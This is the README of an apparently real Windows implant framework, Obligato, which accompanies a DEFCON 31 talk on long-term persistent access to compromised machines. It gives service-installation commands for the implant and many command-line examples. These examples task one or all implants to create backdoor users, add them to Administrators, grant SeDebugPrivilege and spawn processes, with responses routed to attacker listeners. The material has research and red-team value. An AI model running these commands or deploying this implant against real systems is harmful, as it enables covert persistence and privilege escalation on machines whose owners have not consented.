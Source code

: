 # Obligato
This project is an implant framework designed for long term persistent access to Windows machines. The goals are centered around disassociating implant tasks and network activity from the implant service. The primary intended use if for maintaining or regaining access to compromised endpoints.

The initial release is the code used in the demos for my DEFCON 31 talk [Malware Design - Abusing legacy Microsoft transports and session architecture](https://forum.defcon.org/node/245731). This does not implement the access controls and transport encryption layers. These features will be pushed after integrating the existing functionality of the command-line agent into the GUI. I am currently the only developer, so community help is welcome!

Please checkout my talk or the companion slides to get more details and specifics on the underlying components, functionality, and use cases.

## Build Instructions & Information
I used Microsoft Visual Studios 2019 and the latest version of the Windows 10 SDK to build this project, so make sure you have the C++ dependencies installed in VS. The ```ObEngine``` project builds a library that is configured as a dependency in the other three projects ```ObAgent```, ```ObClient```, and ```ObService```. To build Obligato, open the solution in Visual Studios, right click the solution, and choose build. This will begin by building the ObEngine library and then proceed to the other projects that leverage it as a dependency. Each of the projects are described in the following sections.

> [!IMPORTANT]
> Currently, only x64 is supported, so you will get build errors if you try to build for x86.

### [ObService](https://github.com/BeetleChunks/Obligato/tree/main/ObService)
This is the implant service executable that is installed on target endpoints.

#### Installation and Updating Defaults
The Obligato service executable can be installed using the following commands. This assumes the ObEngine service binary is located at ***C:\\Windows\\ObService.exe***. If you rename the service binary or change the directory location, update the ***binPath=*** parameter accordingly.

```
sc create ObMailslot start= auto type= share binPath= "C:\Windows\ObService.exe"
sc create ObUdpSocket start= auto type= share binPath= "C:\Windows\ObService.exe"
```

The service names ***ObMailslot*** and ***ObUdpSocket*** are the required service names. Because the process is a ***share*** type, the service names in the service registration handles must match the service names in the service entry table. If you would like to name them something different, you can update the following lines in the ```ObService``` project's [Main.cpp](https://github.com/BeetleChunks/Obligato/blob/main/ObService/src/Main.cpp) file and recompile.

```c++
WCHAR MailslotSvc[]  = L"ObMailslot";
WCHAR UdpSocketSvc[] = L"ObUdpSocket";
...
g_hService = ::RegisterServiceCtrlHandlerEx(L"ObMailslot", ObMailslotHandler, nullptr);
...
g_hService = ::RegisterServiceCtrlHandlerEx(L"ObUdpSocket", ObUdpSocketHandler, nullptr);
```

The default configurations of the ***Mailslot*** and ***UDP socket*** listeners can also be updated in the ```ObService``` project's [Main.cpp](https://github.com/BeetleChunks/Obligato/blob/main/ObService/src/Main.cpp) file.

```c++
ObEngine::StartMailslotServer(std::wstring(L"obligato")); // Mailslot name
...
ObEngine::StartUdpSocketServer(std::wstring(L"0.0.0.0"), 49153); // IPv4 Address & Port
```

### [ObAgent](https://github.com/BeetleChunks/Obligato/tree/main/ObAgent)
This is the command-line agent used to send tasks to remote targets that are implanted and receive the optional responses. This agent can also start the same transport listeners implemented by the ObService. Please note this should only be used for testing because certain functionality within the implant depends on running as system in session 0.

<details>
<summary>Usage</summary>

```
ObAgent.exe [Command] [Options...]
```

| Command          | Category     | Description                               |
| :--------------- | :----------: | :---------------------------------------- |
| StartMsServer    | Server       | Start Mailslot server listener            |
| StartUdpServer   | Server       | Start UDP socket server listener          |
| AddMsNotify      | Notification | Add mailslot notification route           |
| DelMsNotify      | Notification | Remove mailslot notification route        |
| SendMsNotify     | Notification | Send notification via mailslot            |
| AddUdpSocNotify  | Notification | Add UDP socket notification route         |
| DelUdpSocNotify  | Notification | Remove UDP socket notification route      |
| SendUdpSocNotify | Notification | Send notification via UDP socket          |
| AddUser          | Task         | Create local user                         |
| DelUser          | Task         | Delete local user                         |
| AddGroup         | Task         | Create local group                        |
| DelGroup         | Task         | Delete local group                        |
| AddGroupMem      | Task         | Add member to local group                 |
| RmGroupMem       | Task         | Remove member from local group            |
| AddPriv          | Task         | Add privilege to local user or group      |
| RmPriv           | Task         | Remove privilege from local user or group |
| SpwnProc         | Task         | Spawn a process in a user session         |

| Option | Description                                                              |
| :----- | :----------------------------------------------------------------------- |
| -dMs   | Destination Mailslot name that performs the task                         |
| -dNb   | Destination NetBIOS name that performs the task                          |
| -dUA   | Destination UDP socket IPv4 address that performs the task               |
| -dUP   | Destination UDP socket port number that performs the task                |
| -Ms    | Mailslot name for server start or to receive a task's response           |
| -Nb    | NetBIOS name for server start or to receive a task's response            |
| -UA    | UDP socket IPv4 address for server start or to receive a task's response |
| -UP    | UDP socket port number for server start or to receive a task's response  |
| -n     | Notification message                                                     |
| -d     | Domain                                                                   |
| -u     | User                                                                     |
| -p     | Password                                                                 |
| -g     | Group                                                                    |
| -c     | Comment attached to the created group                                    |
| -m     | Member                                                                   |
| -e     | Name of group or user when managing privileges                           |
| -Pr    | Privilege name (i.e. SeDebugPrivilege)                                   |
| -An    | Application name (i.e. C:\\Windows\\System32\\cmd.exe)                   |
| -Aa    | Application arguments                                                    |
| -Ac    | Application current working directory                                    |
| -h     | Print usage and help (***Not yet implemented***)                         |

</details>

<details>
<summary>Examples</summary>

#### StartMsServer
* Start a Mailslot listener
```
ObAgent.exe StartMsServer -Ms obnotify
```

#### StartUdpServer
* Start a UDP socket listener
```
ObAgent.exe StartUdpServer -UA 0.0.0.0 -UP 11337
```

#### AddMsNotify
* Using Mailslots, task a remote implant to add a Mailslot notification route.
```
ObAgent.exe AddMsNotify -dMs obligato -dNb TARGET01 -Ms obnotify -Nb ATTACKER01
```

* Using Mailslots, task ALL remote implants to add a Mailslot notification route.
```
ObAgent.exe AddMsNotify -dMs obligato -dNb * -Ms obnotify -Nb ATTACKER01
```

* Using UDP sockets, task a remote implant to add a Mailslot notification route.
```
ObAgent.exe AddMsNotify -dUP 49153 -dUA 10.0.0.23 -Ms obnotify -Nb ATTACKER01
```

#### DelMsNotify
* Using Mailslots, task a remote implant to delete a Mailslot notification route.
```
ObAgent.exe DelMsNotify -dMs obligato -dNb TARGET01 -Ms obnotify -Nb ATTACKER01
```

* Using Mailslots, task ALL remote implants to delete a Mailslot notification route.
```
ObAgent.exe DelMsNotify -dMs obligato -dNb * -Ms obnotify -Nb ATTACKER01
```

* Using UDP sockets, task a remote implant to delete a Mailslot notification route.
```
ObAgent.exe DelMsNotify -dUP 49153 -dUA 10.0.0.23 -Ms obnotify -Nb ATTACKER01
```

#### SendMsNotify
* Using Mailslots, task a remote implant to send a notification message to a Mailslot listener.
```
ObAgent.exe SendMsNotify -dMs obligato -dNb TARGET01 -Ms obnotify -Nb ATTACKER01 -n "Message routing works!"
```

* Using Mailslots, task ALL remote implants to send a notification message to a Mailslot listener.
```
ObAgent.exe SendMsNotify -dMs obligato -dNb * -Ms obnotify -Nb ATTACKER01 -n "Message routing works!"
```

* Using UDP sockets, task a remote implant to send a notification message to a Mailslot listener.
```
ObAgent.exe SendMsNotify -dUP 49153 -dUA 10.0.0.23 -Ms obnotify -Nb ATTACKER01 -n "Message routing works!"
```

#### AddUdpSocNotify
* Using Mailslots, task a remote implant to add a UDP socket notification route.
```
ObAgent.exe AddUdpSocNotify -dMs obligato -dNb TARGET01 -UP 11337 -UA 10.0.0.85
```

* Using Mailslots, task ALL remote implants to add a UDP socket notification route.
```
ObAgent.exe AddUdpSocNotify -dMs obligato -dNb * -UP 11337 -UA 10.0.0.85
```

* Using UDP sockets, task a remote implant to add a UDP socket notification route.
```
ObAgent.exe AddUdpSocNotify -dUP 49153 -dUA 10.0.0.23 -UP 11337 -UA 10.0.0.85
```

#### DelUdpSocNotify
* Using Mailslots, task a remote implant to delete a UDP socket notification route.
```
ObAgent.exe DelUdpSocNotify -dMs obligato -dNb TARGET01 -UP 11337 -UA 10.0.0.85
```

* Using Mailslots, task ALL remote implants to delete a UDP socket notification route.
```
ObAgent.exe DelUdpSocNotify -dMs obligato -dNb * -UP 11337 -UA 10.0.0.85
```

* Using UDP sockets, task a remote implant to delete a UDP socket notification route.
```
ObAgent.exe DelUdpSocNotify -dUP 49153 -dUA 10.0.0.23 -UP 11337 -UA 10.0.0.85
```

#### SendUdpSocNotify
* Using Mailslots, task a remote implant to send a notification message to a UDP socket listener.
```
ObAgent.exe SendUdpSocNotify -dMs obligato -dNb TARGET01 -UP 11337 -UA 10.0.0.85 -n "Message routing works!"
```

* Using Mailslots, task ALL remote implants to send a notification message to a UDP socket listener.
```
ObAgent.exe SendUdpSocNotify -dMs obligato -dNb * -UP 11337 -UA 10.0.0.85 -n "Message routing works!"
```

* Using UDP sockets, task a remote implant to send a notification message to a UDP socket listener.
```
ObAgent.exe SendUdpSocNotify -dUP 49153 -dUA 10.0.0.23 -UP 11337 -UA 10.0.0.85 -n "Message routing works!"
```

#### AddUser
* Using Mailslots, task a remote implant to create a local user.
```
ObAgent.exe AddUser -dMs obligato -dNb TARGET01 -u dlogmas -p P4ssw0rd
```

* Using Mailslots, task ALL remote implants to create a local user.
```
ObAgent.exe AddUser -dMs obligato -dNb * -u dlogmas -p P4ssw0rd
```

* Using Mailslots, task a remote implant to create a local user and send a response to a Mailslot listener.
```
ObAgent.exe AddUser -dMs obligato -dNb TARGET01 -u dlogmas -p P4ssw0rd -Ms obnotify -Nb ATTACKER01
```

#### DelUser
* Using Mailslots, task a remote implant to delete a local user.
```
ObAgent.exe DelUser -dMs obligato -dNb TARGET01 -u dlogmas
```

* Using Mailslots, task a remote implant to delete a local user and send a response to a UDP socket listener.
```
ObAgent.exe DelUser -dMs obligato -dNb TARGET01 -u dlogmas -UP 11337 -UA 10.0.0.85
```

#### AddGroup
* Using UDP sockets, task a remote implant to create a local group.
```
ObAgent.exe AddGroup -dUP 49153 -dUA 10.0.0.23 -g obgroup -c "Created for Obligato"
```

* Using UDP sockets, task a remote implant to create a local group and send a response to a Mailslot listener.
```
ObAgent.exe AddGroup -dUP 49153 -dUA 10.0.0.23 -g obgroup -c "Created for Obligato" -Ms obnotify -Nb ATTACKER01
```

#### DelGroup
* Using Mailslots, task a remote implant to delete a local group.
```
ObAgent.exe DelGroup -dMs obligato -dNb TARGET01 -g obgroup
```

#### AddGroupMem
* Using Mailslots, task a remote implant to add a local user to a local group.
```
ObAgent.exe AddGroupMem -dMs obligato -dNb TARGET01 -g obgroup -m dlogmas
```

* Using Mailslots, task a remote implant to add a domain user to a local group.
```
ObAgent.exe AddGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "ecorp\jdoe"
```

* Using Mailslots, task a remote implant to add a local group to the local Administrators group.
```
ObAgent.exe AddGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "obgroup"
```

#### RmGroupMem
* Using Mailslots, task a remote implant to remove a local user from a local group.
```
ObAgent.exe RmGroupMem -dMs obligato -dNb TARGET01 -g obgroup -m dlogmas
```

* Using Mailslots, task a remote implant to remove a domain user from a local group.
```
ObAgent.exe RmGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "ecorp\jdoe"
```

* Using Mailslots, task a remote implant to remove a local group from the local Administrators group.
```
ObAgent.exe RmGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "obgroup"
```

#### AddPriv
* Using Mailslots, task a remote implant to add a privilege to a local user.
```
ObAgent.exe AddPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e dlogmas
```

* Using Mailslots, task a remote implant to add a privilege to a local group.
```
ObAgent.exe AddPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e obgroup
```

#### RmPriv
* Using Mailslots, task a remote implant to remove a privilege from a local user.
```
ObAgent.exe RmPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e dlogmas
```

* Using Mailslots, task a remote implant to remove a privilege from a local group.
```
ObAgent.exe RmPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e obgroup
```

#### SpwnProc
* Using Mailslots, task a remote implant to spawn a process in a local user's logon session.
```
ObAgent.exe SpwnProc -dMs obligato -dNb TARGET01 -An "C:\Windows\System32\cmd.exe" -Aa "/K dir" -Ac "C:\Windows" -d "." -u dlogmas
```

* Using Mailslots, task a remote implant to spawn a process in a domain user's logon session.
```
ObAgent.exe SpwnProc -dMs obligato -dNb TARGET01 -An "C:\Windows\System32\calc.exe" -d "ecorp" -u jdoe
```

</details>

### [ObClient](https://github.com/BeetleChunks/Obligato/tree/main/ObClient)
This is just like the ObAgent except it offers all the features in an easy to use GUI. There are a couple of features in the ObAgent that I am still integrating into this GUI, such as, receiving the optional response notifications. This functionality and the access controls/encryption will be pushed very soon.

### [ObEngine](https://github.com/BeetleChunks/Obligato/tree/main/ObEngine)
This is a library that implements all the functionality of the implant tasking protocol. This is where new transports, tasks, routes, notifications, and other core functionality should be created.

# Disclaimer
This proof-of-concept code has been created for academic research and is not intended to be used against systems except where explicitly authorized. The code is provided as is with no guarantees or promises on its execution. I am not responsible or liable for misuse of this code.
